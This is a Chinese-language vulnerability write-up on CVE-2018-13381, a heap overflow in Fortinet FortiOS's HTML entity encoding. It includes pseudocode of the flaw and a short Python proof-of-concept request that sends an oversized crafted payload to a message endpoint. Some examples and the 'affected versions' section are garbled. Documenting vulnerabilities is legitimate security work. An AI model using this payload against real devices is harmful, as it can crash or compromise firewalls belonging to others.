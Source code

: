 ```yaml
---
title: （CVE-2018-13381）Fortinet FortiOS 缓冲区错误漏洞
id: zhfly2947
---
```


# （CVE-2018-13381）Fortinet FortiOS 缓冲区错误漏洞

## 一、漏洞简介

Fortinet FortiOS是美国飞塔（Fortinet）公司的一套专用于FortiGate网络安全平台上的安全操作系统。该系统为用户提供防火墙、防病毒、IPSec/SSLVPN、Web内容过滤和反垃圾邮件等多种安全功能。 Fortinet FortiOS 6.0.0版本至6.0.4版本、5.6.0版本至5.6.7版本和5.4及之前版本中存在缓冲区错误漏洞。该漏洞源于网络系统或产品在内存上执行操作时，未正确验证数据边界，导致向关联的其他内存位置上执行了错误的读写操作。攻击者可利用该漏洞导致缓冲区溢出或堆溢出等。

## 二、漏洞影响

Fortinet Fortios 6.0.5 Fortinet Fortios 5.6.8

## 三、复现过程

在编码HTML实体代码时，有两个阶段。服务器首先计算编码字符串所需的缓冲区长度，然后将其编码到缓冲区。在计算阶段，例如，`<`字符编码为 `<`，占用5个字节。如果遇到任何以`&#`开头的字符，例如`<`，服务器会认为这个token已经被编码了，并直接计算其长度。像这样：

```
c = token[idx];
if (c == '(' || c == ')' || c == '#' || c == '<' || c == '>')
    cnt += 5;
else if(c == '&' && html[idx+1] == '#')
    cnt += len(strchr(html[idx], ';')-idx); 
```

然而，长度计算和编码过程之间将存在不一致，编码部分无法处理这种情况。

```
switch (c)
{
    case '<':
        memcpy(buf[counter], "&#60;", 5);
        counter += 4;
        break;
    case '>':
    // ...
    default:
        buf[counter] = c;
        break;
    counter++;
} 
```

如果我们输入恶意字符串如`&#<<<;`，`<`仍将编码成`<`，所以编码结果应该是`&#<<<;`！这比预期的6个字节长得多，从而导致堆溢出。
PoC：

```
import requests `data = {

‘title’: ‘x’,

‘msg’: ‘&#’ + ‘<’*(0x20000) + ‘;<’,

}

r = requests.post(‘[https://www.0-sec.org:4433/message](https://www.0-sec.org:4433/message)’, data=data)` 
```